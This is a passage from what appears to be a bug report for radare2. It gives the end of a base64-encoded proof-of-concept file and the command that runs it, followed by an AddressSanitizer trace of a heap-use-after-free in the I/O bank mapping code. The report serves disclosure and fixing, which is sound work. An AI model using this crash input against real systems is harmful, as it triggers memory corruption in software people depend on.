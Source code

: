 MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
IDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMCAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAhAAAwITAAMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAw" | base64 -d > poc

## Expected Output
$ ASAN_OPTIONS=detect_odr_violation=0 r2 poc
=================================================================
==1491342==ERROR: AddressSanitizer: heap-use-after-free on address 0x604001aa6ff0 at pc 0x7fea015cecb8 bp 0x7ffc3b311b00 sp 0x7ffc3b311af8
READ of size 8 at 0x604001aa6ff0 thread T0
    #0 0x7fea015cecb7 in r_io_bank_map_add_top /home/alkyne/fuzzing/r2-debug/libr/io/io_bank.c:229:18
    #1 0x7fea015b8672 in r_io_map_add /home/alkyne/fuzzing/r2-debug/libr/io/io_map.c:158:8
    #2 0x7fe9fe860af0 in add_section /home/alkyne/fuzzing/r2-debug/libr/core/cbin.c:2697:16
    #3 0x7fe9fe84efa0 in bin_sections /home/alkyne/fuzzing/r2-debug/libr/core/cbin.c:3113:4
    #4 0x7fe9fe841459 in r_core_bin_info /home/alkyne/fuzzing/r2-debug/libr/core/cbin.c:4245:10
    #5 0x7fe9fe840ff0 in r_core_bin_set_env /home/alkyne/fuzzing/r2-debug/libr/core/cbin.c:346:3
    #6 0x7fe9fe796ed5 in r_core_file_do_load_for_io_plugin /home/alkyne/fuzzing/r2-debug/libr/core/cfile.c:440:6
    #7 0x7fe9fe791c65 in r_core_bin_load /home/alkyne/fuzzing/r2-debug/libr/core/cfile.c:636:4
    #8 0x7fea01a03251 in r_main_radare2 /home/alkyne/fuzzing/r2-debug/libr/main/radare2.c:1177:15
    #9 0x55bb78d3724e in main /home/alkyne/fuzzing/r2-debug/binr/radare2/radare2.c:96:9
    #10 0x7fea017b00b2 in __libc_start_main /build/glibc-eX1tMB/glibc-2.31/csu/../csu/libc-start.c:308:16
    #11 0x55bb78c8b2cd in _start (/home/alkyne/fuzzing/r2-debug/binr/radare2/radare2+0x1d2cd)

0x604001aa6ff0 is located 32 bytes inside of 40-byte region [0x604001aa6fd0,0x604001aa6ff8)
freed by thread T0 here:
    #0 0x55bb78d05f22 in free (/home/alkyne/fuzzing/r2-debug/binr/radare2/radare2+0x97f22)
    #1 0x7fea01cd56c9 in r_crbtree_take /home/alkyne/fuzzing/r2-debug/libr/util/new_rbtree.c:359:3
    #2 0x7fea01cd6bf6 in r_crbtree_delete /home/alkyne/fuzzing/r2-debug/libr/util/new_rbtree.c:376:9
    #3 0x7fea015cee82 in r_io_bank_map_add_top /home/alkyne/fuzzing/r2-debug/libr/io/io_bank.c:233:12
    #4 0x7fea015b8672 in r_io_map_add /home/alkyne/fuzzing/r2-debug/libr/io/io_map.c:158:8
    #5 0x7fe9fe860af0 in add_section /home/alkyne/fuzzing/r2-debug/libr/core/cbin.c:2697:16
    #6 0x7fe9fe84efa0 in bin_sections /home/alkyne/fuzzing/r2-debug/libr/core/cbin.c:3113:4
    #7 0x7fe9fe841459 in r_core_bin_info /home/alkyne/fuzzing/r2-debug/libr/core/cbin.c:4245:10
    #8 0x7fe9fe840ff0 in r_core_bin_set_env /home/alkyne/fuzzing/r2-debug/libr/core/cbin.c:346:3
    #9 0x7fe9fe796ed5 in r_core_file_do_load_for_io_plugin /home/alkyne/fuzzing/r2-debug/libr/core/cfile.c:440:6
    #10 0x7fe9fe791c65 in r_core_bin_load /home/alkyne/fuzzing/r2-debug/libr/core/cfile.c:636:4
    #11 0x7fea01a03251 in r_main_radare2 /home/alkyne/fuzzing/r2-debug/libr/main/radare2.c:1177:15
    #12 0x55bb78d3724e in main /home/alkyne/fuzzing/r2-debug/binr/radare2/radare2.c:96:9
    #13 0x7fea017b00b2 in __libc_start_main /build/glibc-eX1tMB/glibc-2.31/csu/../csu/libc-start.c:308:16

previously allocated by thread T0 here:
    #0 0x55bb78d06302 in calloc (/home/alkyne/fuzzing/r2-debug/binr/radare2/radare2+0x98302)
    #1 0x7fea01cd422e in _node_new /home/alkyne/fuzzing/r2-debug/libr/util/new_rbtree.c:104:18
    #2 0x7fea01cd392b in r_crbtree_insert /home/alkyne/fuzzing/r2-debug/libr/util/new_rbtree.c:161:8
    #3 0x7fea015ce220 in r_io_bank_map_add_top /home/alkyne/fuzzing/r2-debug/libr/io/io_bank.c:175:8
    #4 0x7fea015b8672 in r_io_map_add /home/alkyne/fuzzing/r2-debug/libr/io/io_map.c:158:8
    #5 0x7fea015b09c8 in r_io_open_at /home/alkyne/fuzzing/r2-debug/libr/io/io.c:90:2
    #6 0x7fe9fe860e63 in io_create_mem_map /home/alkyne/fuzzing/r2-debug/libr/core/cbin.c:2645:10
    #7 0x7fe9fe860892 in add_section /home/alkyne/fuzzing/r2-debug/libr/core/cbin.c:2676:8
    #8 0x7fe9fe84efa0 in bin_sections /home/alkyne/fuzzing/r2-debug/libr/core/cbin.c:3113:4
    #9 0x7fe9fe841459 in r_core_bin_info /home/alkyne/fuzzing/r2-debug/libr/core/cbin.c:4245:10
    #10 0x7fe9fe840ff0 in r_core_bin_set_env /home/alkyne/fuzzing/r2-debug/libr/core/cbin.c:346:3
    #11 0x7fe9fe796ed5 in r_core_file_do_load_for_io_plugin /home/alkyne/fuzzing/r2-debug/libr/core/cfile.c:440:6
    #12 0x7fe9fe791c65 in r_core_bin_load /home/alkyne/fuzzing/r2-debug/libr/core/cfile.c:636:4